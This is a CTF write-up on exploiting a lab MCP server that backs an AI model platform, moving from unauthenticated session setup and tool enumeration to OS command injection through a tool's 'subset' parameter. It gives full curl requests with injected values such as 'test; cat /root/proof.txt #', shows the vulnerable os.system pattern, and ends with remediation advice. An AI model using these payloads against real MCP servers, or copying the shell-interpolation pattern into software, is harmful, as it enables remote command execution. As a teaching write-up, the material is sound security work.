




# NovaMind MCP Server — CTF Writeup

**Category:** AI Security / MCP  
**Difficulty:** Intermediate  
**Points:** 150  
**Flag:** ✅ Captured  

---

## Overview

NovaMind Inc. deployed an internal AI assistant platform backed by a custom **Model Context Protocol (MCP)** server. The goal was to find exploitable weaknesses and read the flag from the host machine at `/root/proof.txt`.

The attack followed a natural MCP recon-to-exploitation flow:

```
Initialize session → Enumerate tools → Recon via registry → 
Test injection points → Bypass validation → RCE → Flag
```

---

## Target



```
http://176.16.10.255:9090/mcp
```

All requests required the following headers:

```
Content-Type: application/json
Accept: application/json, text/event-stream
MCP-Session-Id: <SESSION_ID>
```

Base request template:

```bash
curl http://176.16.10.255:9090/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -H "MCP-Session-Id: <SESSION_ID>" \
  -d '{JSONRPC_BODY}'
```

---

## Step 1 — Initialize the MCP Session

MCP requires a handshake before any tools can be called. An `initialize` request establishes a session and returns a session ID used in all subsequent requests:

```bash
curl http://176.16.10.255:9090/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "initialize",
    "params": {
      "protocolVersion": "2024-11-05",
      "clientInfo": { "name": "recon-client", "version": "1.0" }
    }
  }'
```

The response returned a session ID in the headers:


```
MCP-Session-Id: 82739c004ee64cd6add90d20f75a7580
```

> **Finding:** No credentials were required to initialize a session. The endpoint was fully open to anyone with network access.

---

## Step 2 — Enumerate Available Tools

With a valid session, calling `tools/list` revealed the full server capability surface — including parameter names, types, and descriptions — all without authentication:

```bash
curl http://176.16.10.255:9090/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -H "MCP-Session-Id: 82739c004ee64cd6add90d20f75a7580" \
  -d '{"jsonrpc":"2.0","id":1,"method":"tools/list"}'
```

This returned **5 tools**:

| Tool | Key Parameters | Initial Suspicion |
|---|---|---|
| `search_knowledge_base` | `query`, `collection` | Info disclosure |
| `fetch_knowledge_source` | `url` | SSRF |
| `run_model_evaluation` | `model_name`, `benchmark`, `subset` | **Command injection** |
| `query_llm_metrics` | `metric`, `api_key` | Auth bypass |
| `check_model_registry` | `action` | Info disclosure / recon |

The `run_model_evaluation` tool immediately stood out — its description stated it *"executes the evaluation harness with the specified configuration,"* which is a strong signal that user input may be passed to a subprocess or shell command.

---

## Step 3 — Recon via Model Registry

Before probing for injection, `check_model_registry` was used to enumerate valid model names — necessary since invalid values would likely be rejected:

```json
{
  "jsonrpc": "2.0",
  "id": 12,
  "method": "tools/call",
  "params": {
    "name": "check_model_registry",
    "arguments": {
      "action": "list_models"
    }
  }
}
```

Response:

```json
{
  "models": [
    {"name": "smollm2"},
    {"name": "phi-3"},
    {"name": "llama-3"},
    {"name": "mistral"},
    {"name": "qwen2"}
  ]
}
```

This confirmed valid model names to use in subsequent calls.

---

## Step 4 — Testing `model_name` for Injection (Blocked)

The first injection attempt targeted `model_name`, the most obvious parameter:

```json
"model_name": "smollm2; id"
```

The server responded with:

```
Unknown model: smollm2; id
```

`model_name` was validated against a whitelist — injection through this parameter was blocked. This is good design, but it only hardened one parameter while others remained unsanitized.

---

## Step 5 — Command Injection via `subset`

Attention shifted to the `benchmark` and `subset` parameters. A semicolon injection was attempted through `subset`:

```bash
curl http://176.16.10.255:9090/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -H "MCP-Session-Id: 82739c004ee64cd6add90d20f75a7580" \
  -d '{
    "jsonrpc": "2.0",
    "id": 23,
    "method": "tools/call",
    "params": {
      "name": "run_model_evaluation",
      "arguments": {
        "model_name": "smollm2",
        "benchmark": "mmlu",
        "subset": "test; id"
      }
    }
  }'
```

Response:

```
[stderr] id: 'samples=100': no such user
```

**Command injection confirmed.** The `id` command executed successfully. However, the evaluation harness was appending additional arguments after the injected payload — `--num_samples 100` or similar — which were being passed as arguments to `id`, causing the `no such user` error.

The backend was likely constructing something like:

```python
# Vulnerable backend (hypothetical)
os.system(f"evaluate --model {model_name} --benchmark {benchmark} --subset {subset} --num_samples {num_samples}")
```

With our payload, this became:

```bash
evaluate --model smollm2 --benchmark mmlu --subset test; id --num_samples 100
```

The `id` ran, but received `--num_samples 100` as its argument — hence the error.

---

## Step 6 — Bypassing the Trailing Arguments with `#`

To neutralize the appended arguments, the shell comment character `#` was appended to the payload. Everything after `#` is ignored by the shell:

```
test; cat /root/proof.txt #
```

This caused the backend to execute:

```bash
evaluate --model smollm2 --benchmark mmlu --subset test; cat /root/proof.txt # --num_samples 100
```

The `# --num_samples 100` portion was treated as a comment and discarded entirely.

---

## Step 7 — Final Exploit & Flag

```bash
curl http://176.16.10.255:9090/mcp \
  -H "Content-Type: application/json" \
  -H "Accept: application/json, text/event-stream" \
  -H "MCP-Session-Id: 82739c004ee64cd6add90d20f75a7580" \
  -d '{
    "jsonrpc": "2.0",
    "id": 24,
    "method": "tools/call",
    "params": {
      "name": "run_model_evaluation",
      "arguments": {
        "model_name": "smollm2",
        "benchmark": "mmlu",
        "subset": "test; cat /root/proof.txt #"
      }
    }
  }'
```

The server executed `cat /root/proof.txt` and returned the flag:



✅ **Flag captured.**

---

## Full Attack Chain

```
1. Initialize MCP session (no auth required)
            ↓
2. tools/list → enumerate 5 tools + full schemas
            ↓
3. check_model_registry → confirm valid model names
            ↓
4. run_model_evaluation, model_name: "smollm2; id"
   → blocked (whitelist validation)
            ↓
5. run_model_evaluation, subset: "test; id"
   → RCE confirmed (id runs, trailing args cause error)
            ↓
6. subset: "test; cat /root/proof.txt #"
   → # comments out trailing arguments
            ↓
7. cat /root/proof.txt → flag
```

---

## Vulnerability Summary

| Component | Issue |
|---|---|
| MCP endpoint | No authentication required to initialize session or call tools |
| `run_model_evaluation` | OS command injection via shell string interpolation |
| `subset` parameter | Unsanitized user input passed directly to shell |
| `model_name` parameter | Properly validated (whitelist) — partial hardening |
| Tool schema disclosure | Full parameter names and descriptions exposed without auth |

---

## Root Cause

The backend evaluation harness was building a shell command via string interpolation and executing it with `shell=True` (or equivalent):

```python
# Vulnerable pattern
os.system(f"evaluate --model {model_name} --benchmark {benchmark} --subset {subset} --num_samples {num_samples}")
```

`model_name` had a whitelist check applied before reaching this call. `subset` did not — it was interpolated directly, allowing semicolons and other shell metacharacters to break out of the intended command.

---

## Remediation

| Finding | Fix |
|---|---|
| No endpoint authentication | Require auth tokens before allowing session init or tool calls |
| Command injection | Use `subprocess.run()` with a list argument — never `shell=True` with user input |
| Input validation | Apply a whitelist or strict regex to `benchmark` and `subset`; reject shell metacharacters |
| Partial hardening | Validate ALL parameters, not just the obvious ones |
| SSRF in `fetch_knowledge_source` | Allowlist permitted URL schemes; block internal IP ranges |
| Verbose tool schemas | Avoid exposing implementation details in tool descriptions |

---

## Key Takeaways

- **MCP servers are a new and growing attack surface.** Classic web vulnerabilities — command injection, SSRF, missing auth — appear in MCP implementations when developers focus on AI functionality and skip security fundamentals.
- **Partial validation creates false confidence.** Whitelisting `model_name` while leaving `subset` unsanitized was worse than validating nothing — it may have given developers a false sense that injection was handled.
- **The `#` trick is fundamental.** When a payload breaks out of a command but trailing arguments corrupt the injected command, the shell comment character is the clean fix.
- **Verbose tool schemas aid attackers.** The word *"executes"* in a tool description is a prompt to immediately check its parameters for injection.
- **Always test every free-text parameter.** If one parameter is hardened, move to the next — injection only needs one unsanitized path.
  
  
  
  
  